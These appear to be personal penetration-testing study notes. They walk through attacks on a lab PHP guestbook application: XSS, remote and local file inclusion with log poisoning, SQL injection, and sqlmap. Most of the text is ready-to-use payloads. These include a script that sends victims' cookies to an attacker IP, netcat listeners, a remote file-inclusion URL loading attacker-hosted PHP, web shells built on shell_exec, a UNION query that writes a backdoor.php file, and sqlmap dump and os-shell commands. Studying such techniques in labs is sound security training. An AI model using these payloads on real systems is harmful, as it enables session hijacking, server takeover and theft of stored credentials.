 #Webapps

##Getting Started
1. Start XAMPP and apache/mysql

2. Navigate to the host in your webbrowser (should be a guestbook application)

## XSS

The sign in page isn't filtered and so you can submit javascript which will run when someone views your comment

In this case I posted `<script>alert("XSS");</script>` which when viewed simply pops up the message "XSS"

XSS can be leveraged to do many things but as an example...

1. Create a comment with an iframe pointing to your ip `<iframe src="http://yo.ur.ip.addr:81/report" width="0" height="0"></iframe>`

2. Setup a listener on your machine `nc -lvp 81` 

3. visit the site from a victims machine and you will see a connection, you can use this to exploit the browser, gather information or grab cookies

**Grabbing Cookies**

1. Submit a comment with the following JS `<script> new Image().src="http://10.11.0.74:81/bogus.php"+document.cookie; </script>`

2. Setup a listener on your machine `nc -lvp 81` 

3. Visit the page as an admin

3. You will see that the cookie has been appended to the url your listener picks up

4. We can steal this cookie and login as the user, edit cookies using your browsers console `document.cookie = "PHPSESSID=34015asdsad08f566d00635a6e8ae98"`

## Remote File Inclusions

1. Whilst testing the website we notice that the language dropdown on the signin page appears to grab data from a file

2. We can see this on examining the source code

   ```
   if (isset( $_GET['LANG'] )) { 
     $lang = $_GET['LANG'];
   } else { 
     $lang = 'en';
   }
   include( $lang . '.php' );
   ```

3. We can see the parameters in the URL so tweaking the lang param to our own file is trivial

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=fr&Submit=Submit`
   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt&Submit=Submit`

4. Create our evil file `echo '<?php echo shell_exec("ipconfig"); ?>' >> /var/www/evil.txt`

5. Start apache `service apache2 start`

6. When we navigate to the site we can see that the script appended `.php` onto the end of our request

7. We can get around this by using a null byte (which works in php <=5.3) and causes php to ignore everything after it

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt%00&Submit=Submit`

8. Navigate again to the site and we get the output of the ipconfig command


**Notes**

Might be turned off in php.ini file look for `allow_url_fopen` and `allow_url_include`

##Local File Inclusion

Even with remote file includes turned off it's still possible to run local files and it may be possible to posion log files in order to run php of our choosing.

1. Connect to the webserver using nc `nc -nv 10.11.5.115 80` and paste `<?php echo shell_exec($_GET['cmd']); ?>`

2. Check the access log  on your victims machine to confirm you have posioned the log file 

3. We can now attempt to include the log by navigating to

    `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit`

##SQL Injection (SQLi)

**Authentication Bypass**

Fairly simply hack our goal is to change a query from `SELECT * FROM USERS WHERE username="admin" AND password="XXXX"` to `SELECT * FROM USERS WHERE username="admin" or 1=1;#" AND password="XXXX"`

Once we gain control we can use limit's to ensure we only get one record if necessary

**Error Based Enumeration**

1. Test a field using `'` or `"` if you can see the errors you can glean extra information

2. Using order by you can manipulate the SQL to let you know how many columns are in the table 

    i.e at url `http://10.11.5.115/comment.php?id=738 order by 7` we run the SQL `SELECT * FROM guestbook where id = 738 order by 7` giving us the error `Unknown column '7' in 'order clause'`

3. Now that we now the number of columns in the table we can use `union all` to interegrate the data, remember that we need to return the same number of columns in our union

4. Using a basic union we will tag our columns to find out which/where they might be output

    `http://10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,5,6`

5. Now we can start enumerating using our union statements

    Version: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,@@version,6`
    
    User: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,user(),6`

6. In this case we are running as root so we can enumerate more heavily

    All Tables: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,table_name,6 FROM information_schema.tables`
    
    Get columns for a specific table: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,column_name,6 FROM information_schema.columns where table_name="users"`

7. Then it's just a case of dumping data of that table

    `http://10.11.5.115/comment.php?id=738%20UNION%20SELECT%201,2,name,4,password,6%20FROM%20users`

##Blind SQL Injection

Used at times you can't find errors

1. We confirm injection by first appending a true statement and then a false statement and seeing if we get different results

    ```
    10.11.5.115/comment.php?id=738 AND 1=1;# 
    10.11.5.115/comment.php?id=738 AND 1=2;#
    ```

2. It can also be confirmed using a sleep statement

    ```
    10.11.5.115/comment.php?id=738-sleep(5)
    ```

3. This can then be tied together to enumerate information out of the database

    ```
    10.11.5.115/comment.php?id=738 AND MID(@@version,1,1) = '5';#
    10.11.5.115/comment.php?id=738-IF(MID(@@version,1,1) = '5',SLEEP(5),0)
    ```

##SQL Read/Write
Using our union from before it's possible under certain circumstances to read files

**Reading**

```
10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

**Writing**

```
10.11.5.115/comment.php?id=738 UNION ALL SELECT 1,2,3,4,"<?php echo shell_exec($_GET['cmd']); ?>",6 INTO OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

##SQL Map

SQL map can be used to identify/exploit SQLi vulns

Uses
```
sqlmap -u http://10.11.5.115 --crawl=1
sqlmap -u http://10.11.5.115/comment.php?id=738 --dbms=mysql --dump --threads=5
sqlmap -u http://10.11.5.115/comment.php?id=738 --dbms=mysql --os-shell
```
